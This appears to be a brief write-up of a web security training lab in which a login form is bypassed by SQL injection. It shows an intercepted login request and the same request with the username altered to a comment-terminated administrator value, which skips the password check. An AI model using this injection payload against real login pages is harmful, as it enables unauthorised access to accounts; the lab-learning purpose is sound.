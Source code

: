 
This lab contains a SQL injection vuln in the login Function

We intercept the login request and we got this


```
csrf=scicZeX50tYmirs8GOgY5ErUU5TfSFwC&username=Administrator&password=password
```

Now you can edit it in the next 2 ways:

```
csrf=scicZeX50tYmirs8GOgY5ErUU5TfSFwC&username=Administrator'--&password=password
```

It also forks from the web using Administrator' -- as an username and the password could be whatever
